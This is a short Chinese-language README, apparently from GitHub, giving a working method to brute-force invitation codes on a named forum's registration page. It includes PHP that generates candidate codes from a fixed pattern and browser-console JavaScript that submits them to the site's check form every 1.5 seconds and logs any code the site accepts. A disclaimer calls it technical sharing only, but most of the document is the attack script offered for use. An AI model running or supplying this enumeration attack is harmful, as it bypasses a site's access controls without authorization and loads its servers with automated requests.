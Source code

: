 # 草榴社区 全自动检测邀请码(仅做技术分享，切勿用于非法用途，违者自负)
进入*/register.php

F12--切换至console标签页

根据需要修改arr数组内容的值（可以用代码自动生成）

给出php自动生成代码：
```php
for($i=65;$i<91;$i++){
    $a1=strtolower(chr($i));//输出小写字母
    //echo $a1;
    for($j=65;$j<91;$j++){
        $a2=strtolower(chr($j));//输出小写字母
        //echo $a1;
        for($k=65;$k<91;$k++){
            $a3=strtolower(chr($k));//输出小写字母
            echo '"'.'fc7'.$a1.'893440'.$a2.'0'.$a3.'4a0'.'",';
        }
    }
}
//0-9数字为 $z=48;$z<58;$z++
```
修改检测速率：
修改setInterval函数的参数：1500（每1.5秒检测一个邀请码）
可根据需要调整检测速率



```javascript
var arr=new Array("fc7a893440a0a4a0","fc7a893440a0b4a0","fc7a893440a0c4a0");
function checkarr(i){
    //console.log(arr[i]);
	document.checkForm_invcode.reginvcode.value = arr[i];
	document.checkForm_invcode.submit();
};
var j=0;
setInterval(function(){
	j=j+1;
	checkarr(j);
	if(document.getElementById("check_info_invcode").innerHTML=="<span class='sgreen'>恭喜您，您可以使用這個邀請碼註冊！</span>"){
            console.log("可用邀请码");
    }
},1500);
```
